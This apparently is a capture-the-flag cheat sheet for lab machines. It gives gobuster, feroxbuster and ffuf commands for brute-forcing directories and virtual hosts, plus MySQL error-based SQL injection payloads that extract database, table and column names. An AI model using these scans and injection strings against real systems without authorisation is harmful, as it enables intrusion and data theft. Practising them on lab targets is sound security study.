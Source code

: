Add file extension with `-x`
```
gobuster dir -u http://10.10.10.146 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php
```

disable certificate checks with `-k`
```
gobuster dir -u https://nagios.monitored.htb/ -k -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

```
feroxbuster -u http://siteisup.htb -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

Filter down results 
```
feroxbuster -u "http://bitforge.lab" -w /usr/share/seclists/Discovery/Web-Content/common.txt --depth 2 --filter-status 404
```

With IP as env variable 
```
feroxbuster -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
### Virtual Host Enumeration 

Filter by output length 
```
gobuster vhost -k -u https://monitored.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --exclude-length 301
```

```
ffuf -u http://linkvortex.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.linkvortex.htb'
```
- Execute this and then add `-fs <SIZE #>`
### Error-Based SQLi

[MySQL INFORMATION_SCHEMA Table Reference](https://dev.mysql.com/doc/refman/8.4/en/information-schema-table-reference.html) ➡ [SCHEMATA Table](https://dev.mysql.com/doc/refman/8.4/en/information-schema-schemata-table.html)

```
1 AND EXTRACTVALUE(1,concat(0x0a, (select SCHEMA_NAME from INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1)))
```
- Expected to return 'information_schema'

Get database names
```
1 AND EXTRACTVALUE(1,concat(0x0a, (select group_concat(SCHEMA_NAME) from INFORMATION_SCHEMA.SCHEMATA)))
```

Get columns of a specific database
```
1 AND EXTRACTVALUE(1,concat(0x0a, (select group_concat(TABLE_NAME, ":", COLUMN_NAME) from INFORMATION_SCHEMA.COLUMNS where TABLE_SCHEMA = '<db_name>')))
```
